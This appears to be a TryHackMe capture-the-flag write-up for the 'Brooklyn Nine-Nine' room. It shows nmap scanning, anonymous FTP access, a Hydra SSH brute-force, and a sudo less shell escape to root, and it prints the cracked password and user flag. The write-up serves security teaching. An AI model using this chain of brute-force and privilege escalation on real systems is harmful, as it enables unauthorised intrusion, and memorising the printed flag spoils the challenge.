

# 🚔 Brooklyn Nine-Nine — TryHackMe Writeup

> **Platform:** TryHackMe  
> **Difficulty:** Easy  
> **Tags:** `FTP` `SSH` `Hydra` `Privilege Escalation` `sudo`

---

## 📌 Overview

This room is themed around the Brooklyn Nine-Nine TV show. The goal is to gain initial access through an open FTP server, brute-force SSH credentials, and then escalate privileges to root using a `sudo` misconfiguration.

---

## 🔍 Step 1 — Host Discovery (Ping Scan)

First, confirm the target machine is alive by sending ICMP packets with `ping`.

```bash
ping -c 5 10.49.164.161
```

The machine responds successfully — 5 packets sent, 5 received, **0% packet loss**.


---

## 🗺️ Step 2 — Port & Service Enumeration (Nmap)

Run an aggressive full-port scan with Nmap to discover open services, versions, and OS details.

```bash
nmap -A -p- --min-rate 5000 10.49.164.161
```

**Open Ports Found:**

| Port | Service | Version |
|------|---------|---------|
| 21/tcp | FTP | vsftpd 3.0.3 |
| 22/tcp | SSH | OpenSSH 7.6p1 (Ubuntu) |
| 80/tcp | HTTP | Apache httpd 2.4.29 |

**Key finding:** FTP allows **Anonymous login**, and there is a file called `note_to_jake.txt` accessible without credentials.


---

## 📂 Step 3 — FTP Anonymous Login & File Retrieval

Log in to the FTP server anonymously (no password required) and download the note.

```bash
ftp 10.49.164.161
# Username: anonymous
# Password: (blank)
ftp> ls
ftp> get note_to_jake.txt
ftp> exit
```

Then read the file:

```bash
cat note_to_jake.txt
```

**Note contents:**
> *From Amy: Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine*

This is a critical hint — the username is **jake** and his password is weak!


---

## 🔓 Step 4 — SSH Brute-Force with Hydra

Using the username `jake` from the note, brute-force his SSH password with Hydra and the `rockyou.txt` wordlist.

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.49.164.161
```

**Result:**
```
[22][ssh] host: 10.49.164.161   login: jake   password: 987654321
```

Jake's password is `987654321` — a very weak password, exactly as Amy warned!



---

## 🚪 Step 5 — SSH Login & User Flag

Log in via SSH with the cracked credentials and navigate to find the user flag.

```bash
ssh jake@10.49.164.161
# Password: 987654321
```

Once inside, explore the `/home` directory:

```bash
cd /home
ls
# amy  holt  jake

cd holt
cat user.txt
```

**User Flag:** `ee11cbb19052e40b07aac0ca060c23ee`


---

## ⚡ Step 6 — Privilege Escalation (sudo + less)

Check what commands `jake` can run with `sudo`:

```bash
sudo -l
```

**Output:**
```
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

Jake can run `less` as root **without a password**! This is a classic GTFOBins privilege escalation. Exploit it by spawning a shell from within `less`:

```bash
sudo less /etc/profile
# Inside less, type:
!whoami   # confirms we are root
```

**Root shell obtained!** 🎉

---

## 🏆 Flags Summary

| Flag | Value |
|------|-------|
| 🙍 User Flag | `ee11cbb19052e40b07aac0ca060c23ee` |
| 👑 Root Flag | *(obtained via `sudo less` → shell escape)* |

---

## 🧠 Key Takeaways

- **Anonymous FTP** should never be enabled on production systems — it exposed critical information.
- **Weak passwords** are easily cracked with common wordlists. Jake's `987654321` was found in seconds.
- **Sudo misconfigurations** are dangerous. Allowing `less` as root gives a full root shell via `!<command>` inside the pager.
- Always audit `sudo -l` during privilege escalation — [GTFOBins](https://gtfobins.github.io/) lists exploitable binaries.

---

*Written by aashiq | TryHackMe Writeups Repository*
